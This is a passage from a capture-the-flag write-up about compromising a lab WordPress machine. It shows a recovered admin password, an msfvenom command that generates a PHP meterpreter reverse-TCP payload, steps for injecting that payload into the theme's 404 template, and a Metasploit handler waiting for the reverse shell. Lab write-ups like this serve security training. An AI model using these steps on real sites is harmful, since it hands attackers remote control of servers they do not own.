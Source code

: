 ```bash
[+] Requests Done: 55
[+] Cached Requests: 6
[+] Data Sent: 16.171 KB
[+] Data Received: 235.956 KB
[+] Memory used: 195.172 MB
[+] Elapsed time: 00:00:11
```

Based on this, I discovered that Elliot's password is `ER28-0652`.

After trying out the credentials in the login page, I was finally in:

Once I confirmed I had valid admin credentials, a quick interwebs search led me to this page: [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/). There, the author explains that you can modify the template used by the WP's 404 page to inject malicious PHP code that has the ability to open a reverse shell.

I used [msfvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) to create the payload that I needed to inject in the template file.

Now that I had identified the payload to use, I created the payload by using the following command:

## Exploitation

```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=THM_VIRTUAL_IP LPORT=4444 -o shell.php -f raw

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
Saved as: shell.php
```

I then customized the template by visiting `http://IP/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen`, and pasting the PHP code from shell.php into the template code. I made sure that the pasted code was not being commented out, and that there was a PHP closing tag at the end.

Before saving the changes, l made sure to have a [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) ready to receive the reverse shell:

```bash
$ msfconsole

msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST YOUR_VIRTUAL_IP
LHOST => 10.13.1.198
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on YOUR_VIRTUAL_IP:4444
```
